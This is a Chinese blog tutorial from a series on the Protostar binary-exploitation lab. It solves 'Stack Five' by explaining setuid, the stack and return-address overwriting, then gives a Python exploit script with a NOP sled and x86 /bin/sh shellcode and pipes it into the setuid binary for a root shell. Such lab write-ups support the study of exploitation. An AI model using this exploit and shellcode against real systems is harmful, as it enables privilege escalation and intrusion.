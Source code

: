 ﻿![在这里插入图片描述](https://img-blog.csdnimg.cn/c8376253eb1f4665acd7cc10a2fbee40.png)
# 前言
这是一个系列文章，之前已经介绍过一些二进制安全的基础知识，这里就不过多重复提及，不熟悉的同学可以去看看我之前写的文章
```
二进制安全虚拟机Protostar靶场 安装,基础知识讲解,破解STACK ZERO
https://blog.csdn.net/qq_45894840/article/details/129490504?spm=1001.2014.3001.5501
```
```
二进制安全虚拟机Protostar靶场（2）基础知识讲解，栈溢出覆盖变量 Stack One,Stack Two
https://blog.csdn.net/qq_45894840/article/details/132688653?spm=1001.2014.3001.5501
```
```
二进制安全虚拟机Protostar靶场（3）溢出控制程序指针，基础知识讲解 Stack Three,Stack Four
https://blog.csdn.net/qq_45894840/article/details/132720953?spm=1001.2014.3001.5501
```
# Stack Five
## 程序静态分析
```
https://exploit.education/protostar/stack-five/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a12fefeb4e594ebf8f1a87cccd6ebe0e.png)
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
这个程序很简单，只有两行，作用只是接受我们的输入
## setuid
什么是setuid？
```
setuid代表设置用户身份，并且setuid设置调用进程的有效用户ID，用户运行程序的uid与调用进程的真实uid不匹配
```
这么说起来有点绕，我们来举一个例子
```
一个要以root权限运行的程序，但我们想让普通用户也能运行它，但又要防止该程序被攻击者利用，这里就需要用的setuid了
```
演示
我们用user用户运行一个vim
然后新开一个窗口查看后台进程
```
ps -aux
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/bbc3e82f1a2948209a4a1d37cdbc6ae5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
这里可以看到，我们的vim正在以user的权限运行中，然后我们去执行一下靶机上的setuid文件看看
![在这里插入图片描述](https://img-blog.csdnimg.cn/30c53f076fde40398592a2264a8f5a9f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
这里可以看到，我们虽然是user用户，但执行文件后，文件正以root权限运行
我们查看文件的权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/0f59f934076248e79dbcde8ff371e9e5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
r代表读，w代表写，x代表执行，那s是什么呢
```
s替换了以x的可执行文件，这被称为setuid位，根据刚刚的操作，应该知道了s是做什么的
```
当这个位被user权限的用户执行时，linux实际上是以文件的创造者的权限运行的，在这种情况下，它是以root权限运行的
我们的目标就是，破解这些文件然后拿到root权限

## 什么是栈
可以把栈想象成一个堆积的书本，你可以把新的书本放在最顶部，也可以取出最顶部的书本。

当程序执行时，它会使用栈来跟踪函数调用和变量的值。每次你调用一个函数，计算机会在栈上创建一个新的“帧”（就像书本一样），用来存储这个函数的局部变量和执行时的一些信息。当函数执行完毕时，这个帧会被从栈上移除，就像取出一本书本一样。

栈通常是“后进先出”的，这意味着最后放入栈的数据会最先被取出。这是因为栈的操作是非常快速和高效的，所以它经常用于管理函数调用和跟踪程序执行流程

## 为什么要覆盖ret返回地址
覆盖 ret 返回地址是一种计算机攻击技巧，攻击者利用它来改变程序执行的路径。这个过程有点像将一个路标或导航指令替换成你自己的指令，以便程序执行到你想要的地方。

想象一下，你在开车时遇到一个交叉路口，路标告诉你向左拐才能到达目的地。但是，攻击者可能会悄悄地改变路标，让你误以为需要向右拐。当你按照这个伪装的路标行驶时，你最终会到达攻击者想要的地方，而不是你本来的目的地。

在计算机中，程序执行的路径通常是通过返回地址控制的，这个返回地址告诉计算机在函数执行完毕后应该继续执行哪里的代码。攻击者可以通过修改这个返回地址，迫使程序跳转到他们指定的地方，通常是一段恶意代码，而不是正常的程序代码

## 获取ret返回地址
使用gdb打开程序，在执行leave指令的地方下一个断点

![在这里插入图片描述](https://img-blog.csdnimg.cn/11d479c6260b4a3c89383958be65d347.png)





运行程序，随便输入一些字符，然后查看栈状态

```
x/100wx $esp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/29dd75c07bfa4fbfba42dc8324af1723.png)

另外开一个远程连接界面，使用gdb打开程序，在执行ret指令的地方下一个断点

![在这里插入图片描述](https://img-blog.csdnimg.cn/8c83a2f252544df5a83a0ecb0af90474.png)

在第二个终端界面运行程序，随便输入一些字符，然后执行ret指令，查看程序跳转的地址

![在这里插入图片描述](https://img-blog.csdnimg.cn/dce35252894c457dafe7ebdecccadb9c.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/0c491badbec348458a38504a3dfcd960.png)


根据计算，我们需要80个字符就能完全覆盖ret的返回地址，然后再将我们的shellcode放到控制数据的堆栈里

![在这里插入图片描述](https://img-blog.csdnimg.cn/e543522938ef4064998c87871b494942.png)

## nop指令

NOP指令是一种特殊的机器指令，它在计算机中执行时不做任何操作。简单来说，NOP指令是一种“空操作”，它不改变计算机的状态、不影响寄存器的值，也不执行任何计算或跳转

为了防止我们shellcode收到干扰，我们在shellcode代码前添加一些nop指令即可

## 脚本编写
```
import struct

padding = "A" * 76
eip = struct.pack("I",0xbffff7c0)
nopnop = "\x90"*64
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x88"

print padding+eip+nopnop+payload
```
首先设置一个76位的垃圾字符，然后利用struct模块的pack功能，作用是将一个无符号整数（I 表示无符号整数）转换为二进制数据，跳转到控制数据的栈里，最后写入nop指令和shellcode代码，shellcode代码可以在这个网站里找到
```
http://shell-storm.org/shellcode/files/shellcode-811.html
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e72e559cbcef42639fe2807ca851722b.png)

这是一个linux x86架构执行/bin/sh的shellcode

如果我们直接运行脚本是得不到/bin/sh的

![在这里插入图片描述](https://img-blog.csdnimg.cn/18b8e93ed85740ce94630c4c64a53877.png)

其实/bin/sh已经执行了，只是没有输入，我们可以用cat命令来重定向到标准输入输出

![在这里插入图片描述](https://img-blog.csdnimg.cn/f7df9bf7c886465f8c1b32a6dc4fa155.png)
```
 (python stack5exp.py ; cat) | /opt/protostar/bin/stack5
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/55370e694ef146e9be331d801e6ddad6.png)

成功破解程序
